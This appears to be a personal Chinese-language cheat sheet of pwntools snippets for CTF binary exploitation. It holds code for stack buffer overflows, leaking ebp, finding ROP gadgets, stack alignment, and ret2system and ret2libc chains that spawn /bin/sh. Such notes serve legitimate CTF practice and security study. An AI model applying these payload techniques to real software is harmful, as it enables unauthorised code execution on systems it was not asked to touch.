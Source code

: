 ## 关闭 BytesWarning

```python
import warnings
warnings.filterwarnings("ignore", category=BytesWarning)
```

接收多个 printf("%p,%p,%p")时用 dats = split(','), eval(dats[0]) 来写比较方便

## 各函数的细节区别 scanf 用 sendline, read 用 send

| 函数名 | pwn 工具 | 输出的区别     |
| ------ | -------- | -------------- |
| scanf  | sendline |                |
| read   | send     |                |
| puts   |          | 发送后追加`\n` |
| printf |          | 不追加`\n`     |

## snippets

```py
s = process('./pwn1', env={"LD_PRELOAD": "./libc-2.23.so"}) # 自定义预加载libc.so
elf = ELF('./pwn', checksec=False)
print(hex(elf.bss(0x500))) # bss段+0x500的地址

libc.sym['system']
libc.sym.system
```
## 溢出读取 ebp 值

sendline 发送时\n 会占一个字符 0x4 大小发 `sendline 'a'*4` 会发 5 个字符引发问题。

举例

```c
char s[40]; // [ebp-28h]
read(0, s, 0x30u);


// 要输出 ebp 需要 0x20 个字节这时只要覆盖最后的 00 即可输出 ebp，read时用send,不用sendline
// 如果是scanf要用 sendline
payload1 = b'A' * (0x27) + b'B'
p.send(payload1)  # not sendline
p.recvuntil("B")
original_ebp = u32(p.recv(4))
```

### 填充指定大小

```py
'a'.ljust(268, ' ')
```

## 使用默认的 libc

```
elf = ELF("./canary")
libc = elf.libc
```

## find leave asm

```python
leave_ret = elf.search(asm('leave')).__next__()

# ROP(elf).find_gadget(['pop rdi', 'ret'])[0].address 相同
pop_rdi = ROP(elf).find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = ROP(elf).find_gadget(['pop rsi'])[0]
leave_ret = ROP(elf).find_gadget(['leave', 'ret'])[0]
print(hex(pop_rdi))
```

## snippets

```python
ss = lambda data: s.send(str(data))
sa = lambda delim, data: s.sendafter(str(delim), str(data))
sl = lambda data: s.sendline(data)
sls = lambda data: s.sendline(str(data))
sla = lambda delim, data: s.sendlineafter(str(delim), str(data))
r = lambda num: s.recv(num)
ru = lambda delims, drop=True: s.recvuntil(delims, drop)
itr = lambda: s.interactive()
uu32 = lambda data: u32(data.ljust(4, b'\x00'))
uu64 = lambda data: u64(data.ljust(8, b'\x00'))
leak = lambda name, addr: log.success('{} = {:#x}'.format(name, addr))
l64 = lambda: u64(p.recvuntil("\x7f")[-6:].ljust(8, b"\x00"))
l32 = lambda: u32(p.recvuntil("\xf7")[-4:].ljust(4, b"\x00"))

bss_addr = elf.bss()
```

# Stack

## 栈对齐

```python
rop = ROP(elf)
rop.raw(b'a' * (64 + 8)) # 填充 64 + fake_rbp(8) 个字节的数据到缓冲区中
rop.raw(flat(ret)) # 方式1. 加个ret即可
rop.call(system, [bin_sh]) # 栈对齐

# 方式2 不加ret 加参数 rop.call(system, [bin_sh, '0']) # 栈对齐

# payload = flat(junk, ret, pop_rdi, binsh, system, 0) # junk后面加上 ret 来平栈
```

## ret2system

```sh
# ciscn_2019_es_2
elf.plt['system'] + p32(0) + binsh_addr  # 是地址不是 "/bin/sh" 字符
payload =p32(0) + p32(elf.plt['system']) + p32(0) + p32(stdin_addr+0x10) + b'/bin/sh\x00'
payload = payload.ljust(0x28, '\x00')
```

# rop

见 pwn_01_stack_03_ret2libc_x64_00_ctfhub_bypwntool_rop.py

```sh
rop = ROP('./ret2libc') # x64
rop.raw(b'A' * (144 + 8))  # 填充144 + fake_rbp(8) 个字节的数据到缓冲区中
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
# rop.call 会自动 pop rdi, ret来传入参数
rop.call(puts_plt, [puts_got]) # puts_plt(puts_got, arg2, arg3, arg4, ...)
rop.call('main')  # 自动构建下一步的ret调用main函数，使程序重新运行
p.sendline(rop.chain())

# 再发送时要重新构建 rop
rop = ROP('./ret2libc')
rop.raw(b'A' * (144 + 8))
rop.call(system_addr, [binsh_addr])
```


rop2
```python
context.clear(arch = "i386", kernel = 'amd64')
assembly = 'int 0x80; ret; add esp, 0x10; ret; pop eax; ret'
e = ELF.from_assembly(assembly)
e.symbols['funcname'] = e.entry + 0x1234
r = ROP(e)
r.funcname(1, 2)
r.funcname(3)
r.execve(4, 5, 6)
print(r.dump())
```